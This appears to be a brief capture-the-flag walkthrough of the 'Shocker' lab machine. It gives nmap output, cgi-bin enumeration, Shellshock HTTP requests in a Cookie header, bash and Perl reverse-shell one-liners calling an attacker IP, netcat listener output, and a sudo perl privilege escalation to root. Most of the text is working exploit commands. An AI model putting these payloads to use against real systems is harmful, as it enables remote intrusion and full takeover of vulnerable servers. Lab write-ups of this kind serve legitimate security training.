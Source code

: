 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu)) 
| http-methods:  
|_  Supported Methods: POST OPTIONS GET HEAD 
|_http-server-header: Apache/2.4.18 (Ubuntu) 
|_http-title: Site doesn't have a title (text/html). 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA) 
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA) 
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519) 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 





gobuster dir -u  <website> -w  Wordlist small.txt 
now in cgi-bin/ use -x option and find sh,pl for sh scripts and perl scripts. 


Use burp 

GET /cgi-bin/user.sh HTTP/1.1
Host: localhost:8081
Cookie: () { :;}; echo; /bin/bash -c ls
Connection: close


bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

GET /cgi-bin/user.sh HTTP/1.1
Host: localhost:8081
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.242/8082 0>&1
Connection: close


Now you have a rev shell


bob@kali:~/Desktop/Ethical_Hacking/shocker$ nc -nlvp 8082 
listening on [any] 8082 ... 
connect to [10.10.14.242] from (UNKNOWN) [10.10.10.56] 59806 
bash: no job control in this shell 
shelly@Shocker:/usr/lib/cgi-bin$ 
 '
 
 
 Now we have use check for sudo priv.
 
 
 
 shelly@Shocker:/home/shelly$ sudo -l 
sudo -l 
Matching Defaults entries for shelly on Shocker: 
    env_reset, mail_badpass, 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
 
User shelly may run the following commands on Shocker: 
    (root) NOPASSWD: /usr/bin/perl
 

You can either get a rev shell 

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

or do 

sudo /usr/bin/perl -e ‘exec("/bin/bash")’

boom #

